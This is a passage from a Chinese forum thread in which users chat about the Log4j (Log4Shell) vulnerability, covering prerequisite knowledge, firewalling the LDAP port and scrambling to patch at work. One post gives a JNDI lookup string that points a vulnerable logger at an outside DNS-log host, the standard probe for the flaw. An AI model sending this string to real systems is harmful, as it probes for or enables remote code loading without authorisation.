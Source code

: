 *****

####  bapijun1  
##### 38#       发表于 2021-12-10 14:05

<blockquote>假人 发表于 2021-12-10 14:02
想弄明白这玩意需要哪些前置技能</blockquote>
当几个月的码农，懂一点计算机网络安全的常识，就能读懂他的意思

*****

####  charse2r  
##### 39#       发表于 2021-12-10 14:19

不过其实防火墙把ldap的端口封了就行了吧？

*****

####  harry3  
##### 40#       发表于 2021-12-10 14:35

logger.info("${jndi:ldap://q0nh0g.dnslog.cn}");

*****

####  WaterWater1  
##### 41#       发表于 2021-12-10 14:37

<img src="https://static.saraba1st.com/image/smiley/face2017/001.png" referrerpolicy="no-referrer">领导要求全部涉及应用今天改完
<img src="https://static.saraba1st.com/image/smiley/face2017/003.png" referrerpolicy="no-referrer">我还想回去terraria

*****

####  カドモン  
##### 42#       发表于 2021-12-10 14:40

震惊我全家

*****

####  Charizard  
##### 43#       发表于 2021-12-10 14:41

别说了，为了修这个洞我司已经鸡飞狗跳一天了

—— 来自 HUAWEI NOH-AN00, Android 10上的 [S1Next-鹅版](https://github.com/ykrank/S1-Next/releases) v2.5.2

*****

####  杂色k  
##### 44#       发表于 2021-12-10 14:42

 本帖最后由 杂色k 于 2021-12-10 14:50 编辑 
